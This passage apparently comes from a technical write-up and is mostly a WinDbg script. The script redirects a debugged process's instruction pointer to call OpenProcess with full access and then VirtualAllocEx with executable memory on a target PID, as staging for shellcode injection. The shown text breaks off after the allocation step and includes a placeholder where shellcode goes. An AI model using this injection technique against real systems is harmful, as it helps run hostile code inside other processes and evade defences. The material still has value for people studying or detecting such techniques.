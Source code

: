 With that in mind, I wrote a script to craft the different contexts, setting up the parameters for each WinAPI, and invoked them through manipulating the current instruction pointer `rip`. To make sure the process which is being debugged can resume execution without crashing after we're done, the stack needs to be restored before resuming execution.

```
$$ Arg1 = Target PID as HEX
$$ Arg2 = Shellcode size as HEX

$$ Prepend shellcode here

$$ Save the current stack pointer - to restore the stack later
r @$t8 = rsp

$$ Save the current instruction pointer as the return address
r @$t9 = rip

$$ Set breakpoint on return address to configure the next API call
bp @$t9

$$ Set up the call to OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId)
r rcx = 0x001F0FFF
r rdx = 0
$$ Replace with hex PID of target process
r r8 = ${$arg1}

$$ Allocate shadow space
r rsp = rsp - 0x20

$$ Push the current RIP as the return address onto the stack
r rsp = rsp - 0x8
eq rsp @$t9

$$ Adjust RIP to OpenProcess()
r rip = kernel32!OpenProcess

$$ Execute OpenProcess()
g

$$ Capture the return value (handle) in a pseudo-register
r @$t4 = rax

$$ Set up to call VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)
r rcx = @$t4
r rdx = 0
$$ Replace with hex shellcode size
r r8 = ${$arg2}
r r9 = 0x3000

$$ Push additional argument onto the stack
eq rsp+0x20 0x40

$$ Push the current RIP as the return address onto the stack
r rsp = rsp - 0x8
eq rsp @$t9

$$ Adjust RIP to VirtualAllocEx()
r rip = kernel32!VirtualAllocEx

$$ Execute VirtualAllocEx()
g

$$ Capture the return value (allocated memory address) in a pseudo-register
```